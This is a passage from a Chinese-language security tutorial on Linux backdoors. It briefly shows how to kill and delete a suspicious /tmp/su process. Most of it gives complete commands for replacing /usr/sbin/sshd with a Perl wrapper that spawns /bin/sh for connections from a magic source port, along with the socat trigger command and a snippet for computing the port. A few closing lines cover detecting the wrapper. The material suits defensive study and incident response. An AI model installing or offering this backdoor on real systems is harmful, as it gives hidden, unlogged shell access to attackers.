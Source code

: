 查找有问题的进程

```
ps -ef | grep pid
ls -al /tmp/su
kill -9 pid
rm -rf /tmp/su

```

![p1](http://drops.javaweb.org/uploads/images/a53b7270d8b79b0d5cee34a7d203d1c95506a0c6.jpg)

0x03 SSH Server wrapper
=======================

* * *

条件：开启ssh，如果不连接是没有端口进程的，而且last也看不到

```
cd /usr/sbin
mv sshd ../bin
echo '#!/usr/bin/perl' >sshd

echo 'exec "/bin/sh" if (getpeername(STDIN) =~ /^..4A/);' >>sshd

echo 'exec {"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
//不用重启也行
/etc/init.d/sshd restart

```

kali下的执行

```
socat STDIO TCP4:192.168.206.142:22,sourceport=13377

```

对于源端口的修改：

```
>>> import struct
>>> buffer = struct.pack('>I6',19526)
>>> print repr(buffer)
'\x00\x00LF'
>>> buffer = struct.pack('>I6',13377)
>>> print buffer
4A

```

后门排查：

```
netstat -anopt
//查看一下sshd进程情况,如果发现不是/usr/sbin/目录下面,就有问题
ll /proc/1786
cat /usr/sbin/sshd

```
